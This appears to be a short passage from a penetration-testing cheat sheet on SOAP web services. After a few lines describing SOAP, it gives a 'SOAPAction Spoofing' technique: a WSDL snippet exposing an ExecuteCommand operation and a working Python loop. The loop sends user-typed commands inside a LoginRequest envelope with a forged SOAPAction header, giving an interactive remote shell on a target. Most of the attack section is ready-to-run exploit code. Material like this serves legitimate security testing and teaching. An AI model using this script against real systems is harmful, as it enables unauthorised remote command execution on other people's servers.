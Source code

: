    - Uses XML but provides more functionalities than XML-RPC.
   - Defines both a header structure and a payload structure.
   - Optional Web Services Definition Language (WSDL) declaration.
   - Various lower-level protocols (HTTP included) can be the transport.

### **SOAPAction Spoofing**

If following in wsdl file

```
<wsdl:operation name="ExecuteCommand">
<soap:operation soapAction="ExecuteCommand" style="document"/>
```

```
import requests

while True:
    cmd= input("$ ")
    payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri .org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
    print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
